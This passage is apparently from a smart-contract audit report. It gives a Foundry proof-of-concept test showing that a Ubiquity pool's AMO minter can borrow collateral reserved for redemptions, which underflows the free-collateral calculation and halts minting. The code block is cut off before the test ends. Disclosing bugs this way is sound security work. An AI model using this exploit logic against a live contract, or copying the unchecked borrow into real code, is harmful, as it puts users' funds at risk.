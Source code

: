 ```solidity
```

### POC

You can add the test to `UbiquityPoolFacet.t.sol` and run `forge test --contracts test/diamond/facets/UbiquityPoolFacet.t.sol --mt testAmoMinterBorrow_GetsUnclaimedCollateral`
```solidity
function testAmoMinterBorrow_GetsUnclaimedCollateral() public {
        vm.startPrank(admin);
        ubiquityPoolFacet.setPriceThresholds(
            1000000, // mint threshold
            1000000 // redeem threshold
        );
        //set fees to 0 to make the POC simpler
        ubiquityPoolFacet.setFees(0, 0, 0);
        vm.stopPrank();

        // user sends 100 collateral tokens and gets 100 Dollars
        vm.prank(user);
        ubiquityPoolFacet.mintDollar(
            0, // collateral index
            100e18, // Dollar amount
            99e18, // min amount of Dollars to mint
            100e18 // max collateral to send
        );

        // user redeems 99 Dollars for 99 collateral tokens
        vm.prank(user);
        uint256 collateralOut= ubiquityPoolFacet.redeemDollar(
            0, // collateral index
            99e18, // Dollar amount
            90e18 // min collateral out
        );

        // redemption blocktime passes
        vm.roll(10);

        uint256 freeCollateral = ubiquityPoolFacet.freeCollateralBalance(
            0
        );

        // pool has 100 dollars
        assertEq(collateralToken.balanceOf(address(ubiquityPoolFacet)),  100e18);
        // but only 1 dollar is free after 99 was marked for redemption
        assertEq(freeCollateral, 1e18);


        // amoMinter borrows 99 dollars(collateralOut), even though only 1 are free
        vm.prank(address(dollarAmoMinter));
        ubiquityPoolFacet.amoMinterBorrow(collateralOut);

        assertEq(collateralToken.balanceOf(address(dollarAmoMinter)), collateralOut);
        // pool is left with 1 dollars after amoBorrow
        assertEq(collateralToken.balanceOf(address(ubiquityPoolFacet)),  1e18);

        // freeCollateralBalance() fails 
        // balanceOf(pool) - unclaimedPoolCollateral -> 1 - 99
        vm.expectRevert(); //throws "arithmetic underflow or overflow"
        ubiquityPoolFacet.freeCollateralBalance(
            0
        );

        // minting is no longer working for that collateral
```